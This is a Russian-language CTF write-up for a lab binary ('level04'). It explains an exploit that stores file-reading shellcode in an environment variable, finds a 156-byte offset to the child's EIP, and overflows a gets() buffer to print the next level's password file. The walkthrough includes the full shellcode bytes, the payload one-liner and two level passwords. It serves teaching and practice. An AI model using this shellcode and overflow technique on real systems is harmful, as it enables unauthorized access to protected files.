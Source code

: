 ## HowTo

```
> su level04
kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf
```

### Инструменты:
- gdb + peda
- Ida Pro + hex rays

**NB:** Для работы с файлом стягиваем его на локальную машину

### Анализ и ход решения

1. Форкается процесс, после чего запускается исполнение дочернего.
2. Результат (`pid`) записывается в переменную
3. Данные дочернего процесса (информация о регистрах и их состояниях в т.ч) 
загружается в родительский процесс через ptrace(`PEEKUSER`, `pid`) 


**ИДЕЯ ВЗЛОМА**

Подложить в адрес возврата дочернего процесса вредоносный код, чтобы он был загружен на стадии `ptrace`. 
Мы не можем запустить код внутри дочернего процесса т.к. `ptrace()` не допускает прямого `exec`

1. Т.к. чтения нужного нам файла (`.pass`) нигде не происходит, мы будем использовать шеллкод, который умеет читать и печатать нужный файл

http://shell-storm.org/shellcode/files/shellcode-73.php
```
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass
```

2. Чтение внутри процессов происходит через `gets`, так что переполнить его напрямую не получится.
Поэтому мы будем использовать переменные окружения

3. Создаем переменную окружения, подкладываем туда наш шеллкод
```
> export EXPLOIT=$"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"
```
4. Нам будет нужно достать адрес переменной.
- Способ 1
```
> gdb ./level04
> set follow-fork-mode child
> b* main+1

> run
> show environment 
... list of envs - find position of EXPLOIT ...
> print *((char**)environ+<var_position>)
```

- Способ 2

Использовать сишный файл в приложении.\
**Важно**: компилируем в mode 32 (`gcc -m32`)
```
./print_var EXPLOIT
```

**Адрес переменной** (адрес может отличаться при новом запуске)
```
0xffffd80e
```

5. Находим смещение до `eip` дочернего процесса с использованием `peda`
```
> gdb ./level04
> set follow-fork-mode child
> pattern create 200 (размер паттерна экспериментальный) -> ...pattern...

> run < <(echo '...pattern...')
> patts eip
EIP+0 found at offset: 156
```
7. У нас есть оффсет до `EIP` дочернего процесса `= 156`. 
У нас есть адрес переменной окружения, где лежит наш код `0xffffd80e`

8. Готовим `pyaload`
```
> python -c 'print "A" * 156 + "\x0e\xd8\xff\xff"' | ./level04
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```